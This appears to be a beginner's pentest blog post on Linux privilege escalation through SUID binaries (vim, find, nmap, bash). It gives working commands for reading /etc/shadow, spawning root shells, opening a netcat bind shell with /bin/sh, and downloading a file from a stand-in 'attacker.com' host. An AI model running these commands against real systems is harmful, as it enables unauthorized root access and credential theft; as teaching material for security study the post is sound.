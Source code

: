 ```yaml
--- 
titile: The art of gaining root 
author: Software User
date: 2021-03-17 16:31:00 +0800
category: pentest
tags: [linux,privesc,root,root-shell]
--- 
```


---
<strong><span style="color:#06bf04">Hi Guys, This is my First blog about Linux Privilege escalation. So Without wasting any time Let’s Start I’ll start with basics. </span></strong>


![Desktop View]({{ "/assets/img/pentest/the-art-of-gaining-root/1.png" | relative_url }})

--

# So, What is Linux and Privilege Escalation

1. Linux -: Linux is the best-known and most-used open-source operating system. As an operating system, Linux is software that sits underneath all of the other software on a computer, receiving requests from those programs and relaying these requests to the computer’s hardware.

2. PRIVILEGE ESCALATION -: Privilege escalation is a common way for attackers to gain unauthorized access to systems within a security perimeter.

3. Attackers start by finding weak points in an organization’s defenses and gaining access to a system. In many cases that the first point of penetration will not grant attackers with the level of access or data they need. They will then attempt privilege escalation to gain more permissions or obtain access to additional, more sensitive systems.

# Why Privilege Escalation is Important ?

While usually not the main aim of an attacker, privilege escalation is frequently used in preparation for a more specific attack, allowing intruders to deploy a malicious payload or execute malicious code in the targeted system. This means that whenever you detect or suspect privilege escalation, you also need to look for signs of other malicious activity. However, even without evidence of further attacks, any privilege escalation incident is an information security issue in itself, because someone could have gained unauthorized access to personal, confidential, or otherwise sensitive data. In many cases, this will have to be reported internally or to the relevant authorities to ensure compliance.

So here we covered some theoretical part the meaning of privilege escalation is gaining access on the root with a non-root account.

# Privilege Escalation through SUID 

<strong>SUID</strong> setuid and setgid are Unix access rights flags that allow users to run an executable.

![Desktop View]({{ "/assets/img/pentest/the-art-of-gaining-root/2.png" | relative_url }})

### List of executables -:

1. vim
2. find
3. Nmap
4. bash
5. less
6. more

# How to Find Files with SUID Set in Linux?

```bash
find . -perm /4000
```

![Desktop View]({{ "/assets/img/pentest/the-art-of-gaining-root/3.png" | relative_url }})

you can add more things in this like -l(long listing).

# 1. VIM -: 
Vim is a highly configurable text editor built to enable efficient text editing. It is an improved version of the vi editor distributed with most UNIX/Linux systems. If vim is running as a suid it can access some root files.
You can access any file you can do many things like spawning shell.

like this -:

### 1. vim.tiny /etc/shadow

![Desktop View]({{ "/assets/img/pentest/the-art-of-gaining-root/4.png" | relative_url }})

1. Press ESC key

:set shell=/bin/sh

:shell

![Desktop View]({{ "/assets/img/pentest/the-art-of-gaining-root/5.png" | relative_url }})

1. file download -:

```markdown
export URL=http://attacker.com/file_to_get

export LFILE=file_to_save

vim -c ‘:py import vim,sys; from os import environ as e

if sys.version_info.major == 3: import urllib.request as r

else: import urllib as r

r.urlretrieve(e[“URL”], e[“LFILE”])

vim.command(“:q!”)’
```
for more checkout [here](https://gtfobins.github.io/gtfobins/vim/
)


# 2. Find

find -: find is used to find files


```bash
touch *****
find ***** -exec whoami \;
```
![Desktop View]({{ "/assets/img/pentest/the-art-of-gaining-root/6.png" | relative_url }})

![Desktop View]({{ "/assets/img/pentest/the-art-of-gaining-root/7.png" | relative_url }})

getting shell

```bash
find / -name software_user -exec netcat -lvp 5555 -e /bin/sh \;
netcat 192.*.*.* 5555
```

![Desktop View]({{ "/assets/img/pentest/the-art-of-gaining-root/8.png" | relative_url }})

# 3. NMAP

nmap -: Older versions of Nmap (2.02 to 5.21) had an interactive mode. and through this interactive mode, you can spawn root shell.

1. nmap -V (for finding version )

2. nmap — interactive
    
3. nmap> !sh

4. whoami

5. root

![Desktop View]({{ "/assets/img/pentest/the-art-of-gaining-root/9.png" | relative_url }})

# 4. BASH

bash -: On Linux, bash is the standard shell .
open a bash shell as root.

1. ```bash -p```

